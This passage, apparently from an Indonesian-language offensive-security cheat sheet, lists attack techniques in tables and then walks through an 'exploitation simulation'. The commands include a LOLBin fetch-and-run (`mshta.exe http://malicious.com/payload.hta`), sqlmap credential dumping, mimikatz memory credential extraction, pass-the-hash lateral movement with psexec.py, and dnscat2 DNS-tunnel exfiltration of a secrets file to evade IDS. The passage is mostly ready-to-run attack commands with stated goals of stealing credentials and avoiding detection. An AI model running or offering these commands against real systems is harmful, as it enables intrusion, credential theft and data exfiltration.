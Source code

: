 ```md
| **Process Injection** | Menyisipkan payload ke dalam proses yang sah (svchost.exe) | Bypass antivirus | Bisa dideteksi oleh EDR jika tidak stealth | `Invoke-ReflectivePEInjection -PEPath payload.dll -ProcessID 1234` |
| **Living off the Land (LOLBins)** | Menjalankan serangan dengan tool bawaan Windows/Linux | Tidak memerlukan malware tambahan | Terbatas pada fitur bawaan OS | `mshta.exe http://malicious.com/payload.hta` |

---

## 🛠️ 3. Teknik Eksploitasi Berdasarkan Sistem Target  

| **Target** | **Teknik Eksploitasi** | **Deskripsi** | **Contoh** |
|-----------|----------------------|-------------|------------|
| **Windows** | Pass-the-Hash | Menggunakan hash NTLM curian untuk login tanpa password | `mimikatz.exe sekurlsa::pth /user:admin /domain:target /ntlm:<hash>` |
| **Linux** | SUID Misconfiguration | Mengeksploitasi file dengan SUID bit untuk privilege escalation | `find / -perm -4000 -type f 2>/dev/null` |
| **Web Apps** | SQL Injection | Menyisipkan query SQL berbahaya untuk dump database | `sqlmap -u "http://target.com/login.php?id=1" --dump-all` |
| **Cloud (AWS/GCP/Azure)** | Misconfigured IAM Policies | Menggunakan kebijakan IAM lemah untuk akses tidak sah | `aws s3 ls --profile attacker` |

---

## 🛠️ 4. Simulasi Eksploitasi dengan Contoh Eksekusi  

🔥 **1. Recon (Pengintaian) & Passive Information Gathering**  
```bash
subfinder -d target.com | httpx -silent
nmap -sS -Pn -A -p- target.com
```
**📌 Tujuan:** Menganalisis domain, subdomain, dan layanan yang berjalan.  

🔥 **2. Eksploitasi SQL Injection untuk Credential Dumping**  
```bash
sqlmap -u "https://target.com/login?user=admin" --dump-all --batch
```
**📌 Tujuan:** Mencuri data kredensial dari database target.  

🔥 **3. Windows Privilege Escalation (Token Manipulation via Mimikatz)**  
```powershell
mimikatz.exe privilege::debug sekurlsa::logonpasswords
```
**📌 Tujuan:** Mengekstrak kredensial yang tersimpan dalam memori sistem Windows.  

🔥 **4. Lateral Movement dengan Pass-the-Hash (PTH)**  
```bash
psexec.py TARGET/Administrator@192.168.1.10 -hashes :aad3b435b51404eeaad3b435b51404ee
```
**📌 Tujuan:** Bergerak ke sistem lain dalam jaringan dengan menggunakan hash NTLM.  

🔥 **5. Data Exfiltration melalui DNS Tunneling (Menghindari IDS/Firewall)**  
```bash
dnscat2 --dns target.com --secret-file sensitive_data.txt
```
**📌 Tujuan:** Mengekstrak data secara stealth tanpa terdeteksi firewall atau IDS.  

---